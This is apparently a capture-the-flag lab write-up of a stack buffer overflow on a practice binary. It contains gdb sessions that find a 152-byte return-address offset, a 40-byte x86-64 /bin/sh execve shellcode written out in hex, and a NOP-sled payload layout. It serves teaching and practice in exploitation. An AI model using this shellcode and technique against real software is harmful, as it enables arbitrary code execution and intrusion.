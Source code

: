 ```
[user1@ip-10-10-69-210 overflow-3]$ gdb buffer-overflow
GNU gdb (GDB) Red Hat Enterprise Linux 8.0.1-30.amzn2.0.3
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from buffer-overflow...(no debugging symbols found)...done.
(gdb) run $(python2 -c "print 'A' * 158")
Starting program: /home/user1/overflow-3/buffer-overflow $(python2 -c "print 'A' * 158")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? () 

158-6 = 152

with 153 will be overwriting and with 159 will be passed

(gdb) run $(python2 -c "print 'A' * 153")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python2 -c "print 'A' * 153")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()

cz x41 in hexadecimal to ASCII is A (try using it)
https://www.binaryhexconverter.com/hex-to-ascii-text-converter

With a 158 bytes length payload, we are overwritting 6 bytes of the return address. As a result, the offset will be 152 bytes.


shellcode (40 bytes) that works here: https://www.arsouyes.org/blog/2019/54_Shellcode/

>>> shellcode = '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
40

Return address

The last item we need to complete our payload is the return address of the shell code (6 bytes). Our payload will be like this:

┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  shell code (40)   │  random chars (22) │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
```
